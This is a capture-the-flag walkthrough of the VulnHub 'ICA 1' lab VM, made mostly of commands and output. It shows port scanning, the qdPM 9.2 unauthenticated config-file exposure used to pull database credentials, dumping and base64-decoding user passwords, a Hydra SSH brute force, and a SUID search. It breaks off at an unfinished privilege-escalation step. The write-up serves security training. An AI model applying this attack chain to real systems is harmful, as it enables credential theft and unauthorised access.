


# ICA 1

Download VM from:

[https://www.vulnhub.com/entry/ica-1,748/](https://www.vulnhub.com/entry/ica-1,748/)


Run VM:



Simple NMAP scan:

```shell
sudo nmap -sS 192.168.1.179
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 19:41 CEST
Nmap scan report for debian.home (192.168.1.179)
Host is up (0.00024s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 08:00:27:9D:A7:AA (Oracle VirtualBox virtual NIC)
```

Open broswer:



Search vuln for qdpm92:

```shell
└─$ searchsploit qdpm 9.2          
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                                                                                                                                              | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                                                                                                                                            | php/webapps/50176.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                                            
└─$ 
```

```shell
└─$ searchsploit -p php/webapps/50176.txt
  Exploit: qdPM 9.2 - Password Exposure (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50176
     Path: /usr/share/exploitdb/exploits/php/webapps/50176.txt
File Type: ASCII text
```
                                                                                                                                                                                                                                            
```shell
└─$ cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.                                                                                                                                                                                                                                            
└─$ 

```

Get databases.yml credentials file:

```shell
└─$ curl http://192.168.1.179/core/config/databases.yml
  
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=192.168.1.179'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
                                                                                                                                                                                                                                            
└─$ 
```

Connect to mysql:

```shell
└─$ mysql -h 192.168.1.179 -u qdpmadmin -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Show databases:

```shell
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
6 rows in set (0.175 sec)

MySQL [(none)]> 

```

Connect to qdpm database and show tables:
```shell
MySQL [qdpm]> show tables;
+----------------------+
| Tables_in_qdpm       |
+----------------------+
| attachments          |
| configuration        |
| departments          |
| discussions          |
| discussions_comments |
| discussions_reports  |
| discussions_status   |
| events               |
| extra_fields         |
| extra_fields_list    |
| phases               |
| phases_status        |
| projects             |
| projects_comments    |
| projects_phases      |
| projects_reports     |
| projects_status      |
| projects_types       |
| tasks                |
| tasks_comments       |
| tasks_groups         |
| tasks_labels         |
| tasks_priority       |
| tasks_status         |
| tasks_types          |
| tickets              |
| tickets_comments     |
| tickets_reports      |
| tickets_status       |
| tickets_types        |
| user_reports         |
| users                |
| users_groups         |
| versions             |
| versions_status      |
+----------------------+
35 rows in set (0.002 sec)

MySQL [qdpm]> 
```

Check relevant information on configuration table:

```shell
MySQL [qdpm]> select * from configuration order by id asc Limit 5;
+----+----------------------------+------------------------------------+
| id | key                        | value                              |
+----+----------------------------+------------------------------------+
|  1 | app_administrator_email    | admin@localhost.com                |
|  2 | app_administrator_password | $P$EmesnWRcY9GrK0hDzwaV3rvQnMJ/Fx0 |
|  3 | app_app_name               | Workspace                          |
|  4 | app_app_short_name         | qdPM                               |
|  5 | app_email_label            | qdPM -                             |
+----+----------------------------+------------------------------------+
5 rows in set (0.000 sec)

MySQL [qdpm]> 
```

Identify password hash:
```shell
└─$ hash-identifier                                   
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$EmesnWRcY9GrK0hDzwaV3rvQnMJ/Fx0

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
 HASH: 
```

>PENDING HASHCAT DICT 

Lets check staff database information:

```shell

MySQL [qdpm]> connect staff;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Connection id:    145
Current database: staff

MySQL [staff]> show tables;
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
3 rows in set (0.002 sec)

MySQL [staff]> 

MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> 


```

In order to practice python, we build python script to undecode bas64 passwords on staff database [extract_ica1_os_pass.py](https://github.com/badorius/vulnhub/blob/main/ica1//python/extract_ica1_os_pass.py). 

The script is not necessary to be able to undecode base64 passwords, You could executed direct from bash:
```shell
echo -ne 'c3VSSkFkR3dMcDhkeTNyRg==' | base64 -d -
```


Install python venv package:

```shell
└─$ sudo apt install python3.10-venv
```

Create new virtual environment:

```shell
└─$ python3 -m venv python/venv
```

Load new environment:

```shell
source python/venv/bin/activate
                                                                                                            
┌──(venv)─-[~/git/vulnhub/ica1]
└─$ 

```

Install mysql.connector-python:

```shell
└─$ pip install mysql-connector-python  
Collecting mysql-connector-python
  Downloading mysql_connector_python-8.0.30-cp310-cp310-manylinux1_x86_64.whl (25.4 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 25.4/25.4 MB 15.7 MB/s eta 0:00:00
Collecting protobuf<=3.20.1,>=3.11.0
  Downloading protobuf-3.20.1-cp310-cp310-manylinux_2_12_x86_64.manylinux2010_x86_64.whl (1.1 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.1/1.1 MB 8.9 MB/s eta 0:00:00
Installing collected packages: protobuf, mysql-connector-python
Successfully installed mysql-connector-python-8.0.30 protobuf-3.20.1
                                                                                                            
┌──(venv)─()-[~/…//vulnhub/ica1/python]
└─$ 

```

Run python script and find 2 ssh valid logins:
```shel
└─$ python extract_ica1_os_pass.py 
MySQL connection is closed
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-05 19:39:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://192.168.1.179:22/
[22][ssh] host: 192.168.1.179   login: dexter   password: 7ZwV4qtg42cmUXGX
[22][ssh] host: 192.168.1.179   login: travis   password: DJceVy98W28Y7wLg
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-05 19:39:43
                                                                                                            
└─$ 

```

Login with dexter user:
```shell
└─$ ssh dexter@192.168.1.179
dexter@192.168.1.179's password: 
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  5 12:11:01 2022 from 192.168.1.23
dexter@debian:~$ 
```

User with no sudo privileges:
```shell
dexter@debian:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dexter: 
Sorry, user dexter may not run sudo on debian.
dexter@debian:~$ id
uid=1001(dexter) gid=1001(dexter) groups=1001(dexter)
dexter@debian:~$ 

```

Search for suid files:
```shell
dexter@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 16816 Sep 25  2021 /opt/get_access
-rwxr-sr-x 1 root shadow 31160 Feb  7  2020 /usr/bin/expiry
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 35040 Jul 28  2021 /usr/bin/umount
-rwxr-sr-x 1 root ssh 354440 Mar 13  2021 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 182600 Feb 27  2021 /usr/bin/sudo
-rwxr-sr-x 1 root shadow 80256 Feb  7  2020 /usr/bin/chage
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwxr-sr-x 1 root tty 35048 Jul 28  2021 /usr/bin/wall
-rwxr-sr-x 1 root crontab 43568 Feb 22  2021 /usr/bin/crontab
-rwxr-sr-x 1 root tty 22760 Jul 28  2021 /usr/bin/write.ul
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwxr-sr-x 1 root mail 23040 Feb  4  2021 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 71912 Jul 28  2021 /usr/bin/su
-rwsr-xr-x 1 root root 55528 Jul 28  2021 /usr/bin/mount
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 481608 Mar 13  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51336 Feb 21  2021 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root shadow 38912 Jul  9  2021 /usr/sbin/unix_chkpwd
dexter@debian:~$ 
```

Found get_access file, lets take a look on it:

```shell
dexter@debian:~$ file /opt/get_access
/opt/get_access: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=74c7b8e5b3380d2b5f65d753cc2586736299f21a, for GNU/Linux 3.2.0, not stripped
dexter@debian:~$ 

dexter@debian:~$ strings /opt/get_access|grep cat
cat /root/system.info
dexter@debian:~$ 
```

